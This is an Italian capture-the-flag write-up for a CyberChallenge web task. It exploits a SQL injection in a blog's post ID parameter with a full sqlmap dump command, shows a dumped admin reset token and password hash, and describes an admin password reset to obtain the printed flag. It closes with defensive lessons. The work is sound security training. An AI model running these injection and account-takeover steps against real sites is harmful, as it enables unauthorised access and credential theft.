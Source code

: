 # Writeup: WS_2.04 - yet another blog

## Descrizione 📝
Questo blog permette di visualizzare post in base all’ID, ma non effettua adeguati controlli sui parametri, consentendo un attacco di **SQL Injection**. L’obiettivo è ottenere l’accesso come **admin** (il cui username è già noto) e recuperare la flag.

## Soluzione 🎯

1. **Identificazione della Vulnerabilità**  
   - Sfruttiamo l’endpoint `GET /post.php?id=1` con **sqlmap**:
     ```bash
     sqlmap -u "http://yetanotherblog.challs.cyberchallenge.it/post.php?id=1" --dbs --dump
     ```
   - La query rivela la tabella con le credenziali, inclusi campi `username`, `email`, `reset_token`, e `password_hash`.

2. **Dati Estratti**  
   Esempio di riga (semplificata):
   ```
   username: admin
   email: admin@email.com
   reset_token: 35a124570810e55192aee55f71ce4d8a
   password_hash: $2y$10$zOmPZDYc2wu2U26y7FqKbeuVKpCMrGhA7IPDuY5e.OEXWTY/4qDcO
   ```
   Avendo il `reset_token` per l’utente `admin`, possiamo resettare la password.

3. **Reset della Password**  
   - Usando il `reset_token`, inviamo la richiesta di reset password.  
   - Scegliamo una nuova password a piacere.

4. **Login come Admin**  
   - Effettuiamo il login con `username=admin` e la password appena scelta.  
   - Il sito ci riconosce come admin e mostra la flag.

## Flag 🏁
```
CCIT{Hash_y0ur_r3s3t_t0ken_t00}
```

## Lezioni Apprese 📚
1. **SQL Injection**: Ancora una volta, la mancanza di parametri preparati consente di dumpare il database.  
2. **Reset Token**: Dovrebbe essere protetto (es. hashed) e scadere dopo un certo tempo; se esposto, chiunque può resettare la password.  
3. **Validazione Lato Server**: Non basta un endpoint di reset; bisogna proteggere i token e validare con attenzione l’input.

## Tools Utilizzati 🛠️
- **sqlmap**: Per automatizzare la SQL Injection e dumpare il database.  
- **Browser**: Per eseguire il reset password e accedere come admin.

---

*Writeup by Luca Crippa - Last Updated: 2024*
